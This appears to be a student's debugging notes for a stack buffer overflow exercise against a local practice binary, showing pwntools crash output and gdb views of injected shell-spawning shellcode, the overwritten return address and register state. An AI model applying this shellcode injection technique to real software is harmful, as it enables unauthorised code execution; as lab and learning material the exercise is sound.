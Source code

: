 
This is a pain in the ass to debug without gdb...which seems to think this payload works


Getting a similar error using the other shellcode:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 School_Pwn1.py
[+] Starting local process './school': pid 1500162
/home/kali/Desktop/5-Week/School_Pwn1.py:27: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("directions:")
[*] Process './school' stopped with exit code -11 (SIGSEGV) (pid 1500162)
[+] Parsing corefile...: Done
[*] '/home/kali/Desktop/5-Week/core.1500162'
    Arch:      amd64-64-little
    RIP:       0x7fffffffddb0
    RSP:       0x7ffe1a94e850
    Exe:       '/home/kali/Desktop/5-Week/school' (0x400000)
    Fault:     0x7fffffffddb0
[*] rsp = 0x7ffe1a94e850
[*] rip offset = -1
```
....which also works with GDB

AURGHHHHHH


Back to my payload:
This is what it looks like right before the call to `return`
###### Assembly:
```
 →   0x400681 <main+80>        ret    
   ↳  0x7fffffffddb0                  xor    rsi, rsi
      0x7fffffffddb3                  push   rsi
      0x7fffffffddb4                  movabs rdi, 0x68732f2f6e69622f
      0x7fffffffddbe                  push   rdi
      0x7fffffffddbf                  push   rsp
      0x7fffffffddc0                  pop    rdi
```
###### Stack
```
0x00007fffffffddd8│+0x0000: 0x00007fffffffddb0  →  0x622fbf4856f63148     ← $rsp
0x00007fffffffdde0│+0x0008: 0x0000000000000000
0x00007fffffffdde8│+0x0010: 0x0000000000400631  →  <main+0> push rbp
0x00007fffffffddf0│+0x0018: 0x0000000100000000
0x00007fffffffddf8│+0x0020: 0x00007fffffffdee8  →  0x00007fffffffe251  →  "/home/kali/Desktop/5-Week/school"
0x00007fffffffde00│+0x0028: 0x00007fffffffdee8  →  0x00007fffffffe251  →  "/home/kali/Desktop/5-Week/school"
0x00007fffffffde08│+0x0030: 0x08b00284bd33bf9c
0x00007fffffffde10│+0x0038: 0x0000000000000000
```
###### Register:
```
$rax   : 0x0               
$rbx   : 0x00007fffffffdee8  →  0x00007fffffffe251  →  "/home/kali/Desktop/5-Week/school"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffddd8  →  0x00007fffffffddb0  →  0x622fbf4856f63148
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fffffffdc00  →  0x56f63148202c6948
$rdi   : 0x00007fffffffdbd0  →  0x00007fffffffdc00  →  0x56f63148202c6948
$rip   : 0x0000000000400681  →  <main+80> ret 
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
```